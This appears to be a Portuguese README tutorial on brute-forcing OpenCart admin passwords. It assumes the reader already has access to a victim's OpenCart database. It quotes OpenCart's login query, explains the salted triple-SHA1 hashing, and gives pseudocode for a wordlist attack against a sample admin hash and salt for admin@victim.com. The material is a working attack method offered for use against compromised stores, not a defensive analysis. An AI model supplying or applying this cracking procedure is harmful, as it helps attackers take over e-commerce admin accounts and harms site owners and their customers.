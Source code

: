 # BRUTE FORCE OPENCART PASSWORDS TUTORIAL
Nesse documento eu explico como realizar ataques de força bruta em senhas opencart


## CENÁRIO:
- VOCÊ CONSEGUIU ACESSO AO BANCO DE DADOS OPENCART.
- VOCÊ CONSULTA A SENHA E O SALT DA SENHA NA TABELA DO ADMIN.

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@victim.com 	| 1      | admin       | das ganbi| 127.0.0.1 | developer |

Se vc não conhece o sistema de criptografia de senhas do OpenCart, Então você vai tentar desvendar essa HASH com força bruta comum usando criptografia SHA1.

```
INICIO:

$wordlist_string[] = WORDLIST.TXT

$HASH = "f2e9efd4a366507c5b1cba7749659d93d61ae335";
$comparative = SHA1($wordlist_string[0]);

SE $comparative IGUAL A $HASH
	ENTÃO: A SENHA É : $comparative

SE NÃO
	$comparative = SHA1($wordlist_string[++]);
	COMPARA A $comparative COM A $HASH
FIM.

ASSIM SUCESSIVAMENTE ATÉ TERMOS $comparative == $HASH
```


O problema é que `$password` (A senha decimal do admin) não é simplesmente uma string criptografada com SHA1.
Logo um programa de força bruta baseada nesse tipo de criptografia nunca iria gerar uma HASH igual a HASH do admin que você quer "desvendar".

PORQUE?

SE OLHARMOS O CÓDIGO QUE FAZ A AUTENTICAÇÃO DO USUÁRIO NO OPENCART
`\opencart\system\library\customer.php`

TEMOS O SEGUINTE CÓDIGO:
```
$customer_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "customer WHERE LOWER(email) ='" . $this->db->escape(strtolower($email)) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1' AND approved = '1'");
```

A PARTE QUE NOS INTERESSA:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

TRANSFORMANDO PRA NOSSA LINGUA FICA ALGO COMO:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

obs: ignorei a parte `OR password = '" . $this->db->escape(md5($password)) . "')` já que testamos nossa hash e já sabemos que é SHA1, certo?

## Agora já sabemos como devemos criptografar a strings da nossa wordlist e comparar com a HASH do ADMIN

###### Um script php de força bruta em senhas OpenCart Ficaria algo do tipo:


```
INICIO:

$wordlist_string[] = WORDLIST.TXT

$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";
$comparative = SHA1($salt.SHA1($salt.SHA1($wordlist_string[0])));

SE $comparative IGUAL A $password
	ENTÃO: A SENHA É : $comparative

SE NÃO
	$comparative = SHA1($salt.SHA1($salt.SHA1($wordlist_string[++])));;
	COMPARA A $comparative COM A $password
FIM.

ASSIM SUCESSIVAMENTE ATÉ TERMOS $comparative == $password
```

###### _DUVIDAS? SUGESTÕES?: [pablov3rlly gmail com]_
